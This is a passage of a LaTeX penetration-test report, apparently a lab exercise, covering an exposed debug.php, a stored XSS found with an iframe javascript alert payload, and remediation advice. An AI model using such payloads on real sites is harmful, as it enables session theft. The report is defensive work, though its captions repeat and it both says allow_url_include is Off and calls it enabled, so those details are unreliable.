    
\includegraphics[width=0.8\textwidth]{CD1.png}
    \caption{ Discovery of debug.php}
    \label{fig:sql_injection}
    \end{figure}
    
    \FloatBarrier
  
  \item \textbf{Insecure settings:} Options like \texttt{display\_errors = On} and \texttt{allow\_url\_include = Off} were visible, which can assist attackers during exploitation and reconnaissance\cite{php-ini-secure}.
  \begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\textwidth]{CD2.png}
    \caption{ Discovery of debug.php}
    \label{fig:sql_injection}
    \end{figure}
    
    \FloatBarrier
  
  \item \textbf{Loaded PHP extensions:} Modules such as \texttt{mysqli}, \texttt{curl} and \texttt{sodium} were shown, informing attackers about potential attack vectors.
  
  \item \textbf{Environment and server paths:} Internal server paths like \texttt{/var/www/html} and configuration directories such as \texttt{/usr/local/etc/php} were disclosed.
  
    \begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\textwidth]{CD4.png}
    \caption{ Discovery of debug.php}
    \label{fig:sql_injection}
    \end{figure}
    
    \FloatBarrier


  \item \textbf{Session and authentication data:} Sensitive values including \texttt{PHPSESSID}, JWT tokens, and session cookies were exposed in the request, increasing the risk of session hijacking.
  \begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\textwidth]{CD5.png}
    \caption{ Discovery of debug.php}
    \label{fig:sql_injection}
    \end{figure}
    
    \FloatBarrier
  
  \item \textbf{HTTP header leak:} The \texttt{X-Powered-By} header was set, due to \texttt{expose\_php = On}, which publicly reveals the PHP version in use\cite{php-ini-secure}.

  \begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\textwidth]{CD6.png}
    \caption{ Discovery of debug.php}
    \label{fig:sql_injection}
    \end{figure}
    
    \FloatBarrier
\end{itemize}

This level of transparency provides valuable information to attackers, enabling them to customize exploits based on the known vulnerabilities and server setup.


\subsubsection{Impact}
The exposure of internal configuration files and debugging output can greatly assist an attacker during the reconnaissance phase. In this case, it provided:

\begin{itemize}
    \item Evidence of outdated software (PHP 7.2.34) \cite{cvedetails-php7234}
    \item Confirmation that dangerous settings like \texttt{allow\_url\_iclude} are enabled \cite{php-ini-secure}
\end{itemize}

\subsubsection{Root Cause Analysis}
The underlying cause of this issue is the deployment of debugging files (\texttt{debug.php}) in a production-like environment. This files is likely meant for internal development use but were left accessible.

\subsubsection{Remediation Recommendations}
\begin{itemize}
    \item Remove or restrict access to debugging and configuration files before deployment.
    \item Configure the web server to block access to sensitive file patterns (e.g., \texttt{*.bak}, \texttt{*.conf}, \texttt{*.phpinfo}).
    \item Use server configuration best practices to disable directory listing and prevent access to unlinked resources.
    \item Regularly scan the application using tools like Gobuster to identify and remove unnecessary public files.
\end{itemize}

\subsection{Cross-Site Scripting (XSS)}

\subsubsection{Initial Testing}
To evaluate the application for XSS vulnerabilities, the report submission functionality was inspected. The testing focused on identifying reflected or stored XSS vectors where user input was displayed back in the browser without proper sanitization.

\subsubsection{Payload Injection}
A basic test payload was used to evaluate the output encoding and input filtering\cite{juice-shop}:

\begin{verbatim}
<iframe src="javascript:alert('xss')">
\end{verbatim}

The payload was submitted through the report message input field. Upon loading the report page, the payload executed, producing a browser alert. This confirmed the presence of a stored XSS vulnerability.

\begin{figure}[h!]
\centering

\includegraphics[width=0.8\textwidth]{PT8.png}
\caption{Cross-Site Scripting (XSS)}
\label{fig:sql_injection}
\end{figure}

\FloatBarrier

\subsubsection{Observation}
The injected payload was stored in the backend and rendered without sanitization in the browser context. The script executed successfully for any user who accessed the affected report page, demonstrating that arbitrary HTML/JavaScript could be injected and executed.

\subsubsection{Impact}
The vulnerability allows an attacker to:
\begin{itemize}
    \item Steal session cookies or credentials via malicious scripts
    \item Modify the DOM to create phishing inputs or fake forms
    \item Execute unauthorized actions on behalf of the user (e.g., CSRF-style behavior)
\end{itemize}

This kind of stored XSS is especially dangerous because it persists in the system and affects every user who views the affected page.

\subsubsection{Root Cause Analysis}
The issue arises due to the use of unsafe DOM rendering practices in the frontend code. Specifically, user-controlled content was inserted using:

\begin{verbatim}
this.sanitizer.bypassSecurityTrustHtml(queryParam or searchText)
\end{verbatim}

This bypasses Angular's default XSS protections and trusts the input blindly, allowing raw HTML and JavaScript to be executed.

\subsubsection{Remediation Recommendations}
\begin{itemize}
    \item Avoid using \texttt{bypassSecurityTrustHtml()} when displaying user input, as it disables built-in protections.
    \item Instead of trusting and rendering the HTML, use a safer approach like:
    \begin{verbatim}
    this.searchValue = sanitizeInput(queryParam or searchText)
    or (queryParam or searchText);
    \end{verbatim}
    This ensures the input is treated as plain text, not executable code.
    \item Always sanitize user input before storing or displaying it.
    \item Validate input on both client and server side to filter out suspicious scripts or HTML.
    \item Implement a Content Security Policy (CSP) to block inline scripts and reduce XSS impact.
\end{itemize}

\section{Remediation Plan}

\subsection{Purpose of the Remediation Plan}
\begin{itemize}
    \item Explain how to \textbf{fix or mitigate the existing vulnerabilities} discovered during the penetration test, including SQL Injection, Directory/File Enumeration, and Cross-Site Scripting (XSS).
    \item Help to \textbf{prioritize and strategize their response}, based on vulnerability severity, exploitability, and operational constraints.
\end{itemize}

\subsection{Prioritization}
\begin{itemize}
    \item The \textbf{Common Vulnerability Scoring System (CVSS)} was used to assign a risk score to each finding:
    \begin{itemize}
        \item \textbf{SQL Injection:} 8.8 (Critical)
        \item \textbf{XSS:} 8.0 (High)
        \item \textbf{Directory Enumeration:} 7.5 (High)
    \end{itemize}
    \item The above severity scores only provides the initial ranking, but in industry there are other non-technical factors that can also affect the priority(e.g, legacy system, operational downtime)
\end{itemize}

\subsection{Types of Recommendations}
For each vulnerability, we outline three classes of countermeasures:

\paragraph{Patch}
\begin{itemize}
    \item SQL Injection: Replace dynamic queries with \textbf{parameterized/prepared statements} \cite{owasp-sql-injection}.
    \item XSS: Remove usage of unsafe DOM rendering (e.g., \texttt{bypassSecurityTrustHtml()}).
    \item Directory Exposure: \textbf{Remove debug/config files} from production.
\end{itemize}

\paragraph{Mitigation}
\begin{itemize}
    \item Input \textbf{sanitization and validation} on both client and server, Store encrypted Id in the system.
    \item Enable \textbf{rate-limiting} on login attempts by blocking for a time period and monitor for anomalies.
    \item Block access to sensitive paths through \textbf{web server configuration}.
\end{itemize}

\paragraph{Workaround}
\begin{itemize}
    \item Add \textbf{Intrusion Detection Systems (IDS)} and logging rules to alert admins of suspicious activity.
    \item Back up user data and application state regularly.
    \item Limit application exposure by disabling directory listing and unnecessary debug endpoints.
\end{itemize}

\subsection{Actionable Details}
The remediation recommendations provided in this report are designed to be both practical and relevant. Each suggestion is:
\begin{itemize}
\item \textbf{Clear and implementable}, providing concrete steps rather than vague advice.
\item \textbf{Tailored to the technologies used} in the assessed environment, such as PHP, MariaDB.
\item \textbf{Directly linked to the vulnerabilities discovered}, ensuring that each recommendation addresses a specific issue identified during the test.
\end{itemize}
This approach ensures that the client can take immediate, informed actions to strengthen the security of the system.

\subsection{Security Hardening}
The broader goal of these remediation efforts is not just to resolve individual issues, but to \textbf{harden the entire infrastructure}. This includes:
\begin{itemize}
    \item Applying \textbf{secure coding practices} across all backend and fupdatexmlrontend components.
    \item Ensuring \textbf{configuration management} is aligned with industry best practices.
    \item Establishing a \textbf{culture of continuous monitoring and vulnerability assessment}.
\end{itemize}


\section{References}
\begin{thebibliography}{10}

\bibitem{cvss-calculator}
National Vulnerability Database, 
\textit{CVSS v3.1 Calculator}, 
\url{https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator}

